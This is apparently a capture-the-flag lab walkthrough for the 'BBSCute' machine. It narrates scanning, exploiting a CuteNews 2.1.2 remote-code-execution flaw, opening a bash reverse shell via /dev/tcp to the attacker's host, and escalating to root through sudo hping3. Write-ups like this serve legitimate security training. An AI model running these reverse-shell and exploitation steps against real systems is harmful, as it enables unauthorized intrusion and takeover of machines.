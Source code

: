 Machine name: BBSCute
Machine IP: 192.168.213.128

#Recon and Enum.

We'll sart off with an nmap scan as always. For this,I did an initial scan of the top 1000 ports and a full nmap scan as well.

There are a number of open ports, I usually love to start with port 80 whenever I see one. Let's head over and check what's running here.

Navigating to http://192.168.213.128, we are met with a default apache page.

Let's run a quick dirb/gobuster scan on the port.

The /index.php looks interesting. A look there and we end up with a login page.
It also gives us more details, seems that it running some service called CuteNews news management system. We can enumerate this further and check if there are any known vulnerabilities.

The site is running on version 2.1.2

There are a ton of hits on searchsploit db. This is good news, seems as though this service is seriously vulnerable. Let's dig in some more.

There's a python Remote Code Execution exploit. This seems tasty. Let's see how this works and what it does.

we can mirror the code and have a look under the hood.

At first I tried to run the exploit but it did not work. So after some research, I found out that the exploit needed some editing. I went back and removed every /CuteNews part in every url in the code.

I ran the exploit and got a shell.

spawning a reverse shell to get a stable shell

running which nc on RHOST confirms nc is installed. So we'll spawn a reverse shell.

bash -c 'bash -i >& /dev/tcp/tun0_IP/4444 0>&1'

spinning up a nc listener on LHOST, nc -nlvp 4444

stable shell: python3 -c 'import pty; pty.spawn("/bin/bash")'


running sudo -l let's us know we can run hping3 as root.

run hping3 and get root.